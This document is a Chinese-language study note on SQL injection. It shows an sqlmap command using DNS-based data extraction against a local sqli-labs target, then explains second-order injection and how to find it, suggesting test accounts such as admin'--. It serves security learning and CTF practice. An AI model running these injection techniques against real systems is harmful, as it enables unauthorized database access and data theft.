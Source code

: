 

[Sqlmap支持dns回显注入](https://www.freebuf.com/column/226091.html)

​	在sqlmap中实现DNS注入加上参数

​	在服务器安装好了sqlmap然后运行dns.py

```
	--dns-domain=域名
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-2/?id=1" --tech B --dns-domain 192.168.0.18 --dbs
```

​	即可实现自动化



#### 二次注入

<span style="background:#FF9999;">前端找不到，**扫描工具也无效！** **只能靠人工**</span>

> sqlilab 登录框+24关

> [**CSDN简洁版](https://blog.csdn.net/weixin_44262289/article/details/107699595?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0.control&spm=1001.2101.3001.4242)
>
> [freebuf科普加例题+强网杯](https://www.freebuf.com/articles/web/167089.html)
>
> CTF-[网鼎杯2018]Unfinish【buu/cuthub】

注册用户：插入数据，修改密码：更新数据

先注册用户，对用户名做马脚然后修改密码时实现对其他账号的注入

- 关键点：插入危险数据=》显示危险数据

- **核心原理：**

**提前把危险语句插入数据库（插入），数据在存入数据库后还原成了用户输入的形式，当在数据库取出的时候（更新/查询），没有再次进行过滤和转义，执行语句导致错误，从而造成了二次注入。**



Q:二次注入可能存在在什么地方

- 存在转义函数的地方
- 在<span style="background:#bbffff;">回溯数据输入的地方，如修改用户账户密码、修改文章标题</span>
- 跨语言的应用，容易导致问题。比如前台PHP，后台java
- 日志相关：存日志时，读取了一些数据库里的信息，比如用户名等，然后又存储了一次
- 跨程序的数据传递：程序A处理完后存储到数据库，程序B去读取，未进行过滤





- **二次注入漏洞挖掘思路有哪些**

（1）数据库存储未转义，大多来说，存储到数据库中的东西只是做了表面的转义，实质上库里存储的还是原始状态的内容，在多数读取未校验的情况下，可输入特殊字符并在页面上完整显示的部分，有可能存在二次注入的可能。

（2）强交互部分，SQL注入是需要与数据库联动的，但往往在登录、修改内容、发布内容等功能上忽略了历史数据这一点，所以在遇到有修改账户密码、发布留言、发布内容的部分，大家不妨去试试注册一个test或者admin’--或者admin账号，然后在测试回复的内容或者修改的内容是否达到预期。如果与预期不符，那么有可能就存在二次注入，此时在精心构造sql语句即可。
